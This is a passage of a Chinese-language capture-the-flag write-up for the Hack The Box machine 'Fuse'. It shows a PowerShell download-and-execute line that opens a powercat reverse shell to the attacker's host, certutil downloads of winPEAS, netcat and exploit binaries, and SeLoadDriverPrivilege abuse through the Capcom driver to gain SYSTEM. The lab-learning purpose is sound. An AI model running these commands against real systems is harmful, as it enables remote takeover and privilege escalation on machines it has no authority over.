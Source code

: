 如果要从winRM转到正常shell可以执行powershell调用kali上的powercat
```
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.35:8080/powercat.ps1');powercat -c 10.10.14.35 -p 1337 -e cmd"
```

![]({{ site.url }}/assets/Fuse_193.assets/20201029174416998_3055.png)


![]({{ site.url }}/assets/Fuse_193.assets/20201029175047680_16091.png)



下载枚举程序，准备提权

certutil -urlcache -split -f http://10.10.14.35:8080/winPEAS.exe


![]({{ site.url }}/assets/Fuse_193.assets/20201029180110308_8264.png)

DLL hijacking
![]({{ site.url }}/assets/Fuse_193.assets/20201029180008595_26629.png)

![]({{ site.url }}/assets/Fuse_193.assets/20201029175623863_18213.png)

![]({{ site.url }}/assets/Fuse_193.assets/20201029175502262_14838.png)

全部检查没有发现

检查权限发现可以修改驱动
whoami /priv
![]({{ site.url }}/assets/Fuse_193.assets/20201029185550788_2633.png)

SeLoadDriverPrivilege         Load and unload device drivers Enabled

用户拥有驱动权限会导致提权
参考
`https://cyberbotnet.com/2020-10-19/Abusing-SeLoadDriverPrivilege-for-privilege_escalation`

进行了一些搜索。

下载编译。
https://github.com/TarlogicSecurity/EoPLoadDriver/eoploaddriver.cpp

https://raw.githubusercontent.com/tandasat/ExploitCapcom/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp

传输到目标机器
```
certutil -urlcache -split -f http://10.10.14.35:8080/eoploaddriver.exe
certutil -urlcache -split -f http://10.10.14.35:8080/ExploitCapcom.exe
certutil -urlcache -split -f http://10.10.14.35:8080/Capcom.sys
certutil -urlcache -split -f http://10.10.14.35:8080/nc.exe
```
执行exploit，测试命令
```
.\eoploaddriver.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
.\ExploitCapcom.exe EXPLOIT whoami
```
![]({{ site.url }}/assets/Fuse_193.assets/20201029213212772_6077.png)
